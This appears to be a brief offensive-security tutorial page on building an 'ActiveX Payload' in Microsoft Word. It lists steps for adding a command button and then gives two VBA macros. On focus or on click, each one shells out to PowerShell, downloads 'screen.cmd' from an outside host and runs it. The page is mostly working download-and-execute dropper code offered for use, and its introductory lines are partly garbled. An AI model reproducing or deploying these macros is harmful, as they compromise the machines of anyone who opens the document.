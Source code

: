 # ActiveX Control

***

`ActiveX` controls on worksheets and chart sheets and use for controll command buttons, text boxes, list boxes etc

Excel  BottomRightCell, LinkedCell, ListFillRange, Placement, PrintObject, TopLeftCell.

### Create ActiveX Payload

1. open MS Word and go to Developer Tab
2. click on Design Mode
3. click on more control and select command button
4. right click on command button and select view code

#### Example -1

```excel
Sub InkEdit1_GotFocus()
Run = Shell("cmd.exe /c PowerShell (New-Object System.Net.WebClient).DownloadFile('http://nooranetred.com/screen.cmd','screen.cmd');Start-Process 'screen.cmd'", vbNormalFocus)
End Sub
```

#### Example -2

```excel
Private Sub CommandButton1_Click()
Run = Shell("PowerShell (New-Object System.Net.WebClient).DownloadFile('http://nooranetred.com/screen.cmd','screen.cmd');Start-Process 'screen.cmd'", vbNormalFocus)
End Sub
```